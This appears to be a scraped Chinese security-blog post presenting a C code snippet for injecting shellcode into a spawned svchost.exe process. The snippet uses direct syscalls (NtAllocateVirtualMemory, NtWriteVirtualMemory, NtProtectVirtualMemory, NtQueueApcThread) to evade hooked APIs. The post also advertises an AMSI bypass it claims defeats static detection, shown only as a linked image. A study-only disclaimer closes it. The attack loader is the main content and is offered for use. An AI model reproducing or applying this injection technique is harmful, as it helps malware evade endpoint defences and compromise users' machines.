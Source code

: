   

调用方法：  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "syscalls.h"  
     RtlGetVersion(&osInfo);       CreateProcessA("C:\\Windows\\system32\\svchost.exe", NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &sInfo, &pInfo);  
            LPVOID rBuffer = NULL;        struct NtInfo NtdllInfo;        struct Syscalls rSyscall;        SIZE_T uSize = (SIZE_T)Size;  
            ParseNtdll(&NtdllInfo, &rSyscall);  
            // alloc the memory we need inside the process        MakeSyscall("NtAllocateVirtualMemory", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtAllocateVirtualMemory(pInfo.hProcess, &rBuffer, 0, &uSize, (MEM_RESERVE | MEM_COMMIT), PAGE_READWRITE);        CleanSyscall(SyscallStub);  
            // write our shellcode bytes to the process        MakeSyscall("NtWriteVirtualMemory", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtWriteVirtualMemory(pInfo.hProcess, rBuffer, Bytes, Size, NULL);        CleanSyscall(SyscallStub);  
            // change the permisions on the memory so we can execute it        MakeSyscall("NtProtectVirtualMemory", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtProtectVirtualMemory(pInfo.hProcess, &rBuffer, &uSize, PAGE_EXECUTE_READWRITE, &oProc);        CleanSyscall(SyscallStub);  
            // execute the code inside the process        MakeSyscall("NtQueueApcThread", NtdllInfo.pExprtDir, NtdllInfo.lpRawData, NtdllInfo.pTextSection, NtdllInfo.pRdataSection, SyscallStub);        rSyscall.NtQueueApcThread(pInfo.hThread, (PIO_APC_ROUTINE)rBuffer, NULL, NULL, NULL);        CleanSyscall(SyscallStub);

  

以及一个目前过amsi且全球静态可过的方法，来源

https://twitter.com/TihanyiNorbert/status/1278078606737096704/photo/1：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091059.png)

  

  

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](https://gitee.com/fuli009/images/raw/master/public/20210822091100.png)

  
